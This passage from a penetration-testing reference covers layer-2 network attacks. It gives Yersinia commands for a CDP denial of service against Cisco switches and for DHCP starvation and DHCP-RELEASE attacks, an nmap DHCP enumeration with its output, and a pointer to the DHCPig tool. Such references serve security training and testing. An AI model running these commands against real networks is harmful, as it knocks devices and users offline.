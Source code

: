 ### CDP Attacks

CISCO Discovery Protocol is the protocol used by CISCO devices to talk among them, discover who is alive and what features does they have. You can make a DoS attack to a CISCO switch by exhausting the device memory simulating real CISCO devices.

You could use `Yersina` to capture CDP frames and show the information

```bash
sudo yersinia cdp -attack 1 #DoS Attack simulating new CISCO devices
sudo yersinia cdp -attack 2 #Simulate a new CISCO device
sudo yersinia cdp -attack 0 #Send a CDP packet
```

You could also use [scapy](https://github.com/secdev/scapy/). Be sure to install it with `scapy/contrib` package.

### DHCP

#### Enumeration

```bash
nmap --script broadcast-dhcp-discover
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-16 05:30 EDT
WARNING: No targets were specified, so 0 hosts scanned.
Pre-scan script results:
| broadcast-dhcp-discover: 
|   Response 1 of 1: 
|     IP Offered: 192.168.1.250
|     DHCP Message Type: DHCPOFFER
|     Server Identifier: 192.168.1.1
|     IP Address Lease Time: 1m00s
|     Subnet Mask: 255.255.255.0
|     Router: 192.168.1.1
|     Domain Name Server: 192.168.1.1
|_    Domain Name: mynet
Nmap done: 0 IP addresses (0 hosts up) scanned in 5.27 seconds
```

**DoS**

**Two types of DoS** could be performed against DHCP servers. The first one consists on **simulate enough fake hosts to use all the possible IP addresses**.  
This attack will work only if you can see the responses of the DHCP server and complete the protocol \(**Discover** \(Comp\) --&gt; **Offer** \(server\) --&gt; **Request** \(Comp\) --&gt; **ACK** \(server\)\). For example, this is **not possible in Wifi networks**.

Another way to perform a DHCP DoS is to send a **DHCP-RELEASE packet using as source code every possible IP**. Then, the server will think that everybody has finished using the IP.

```bash
yersinia dhcp -attack 1
yersinia dhcp -attack 3 #More parameters are needed
```

A more automatic way of doing this is using the tool [DHCPing](https://github.com/kamorin/DHCPig)
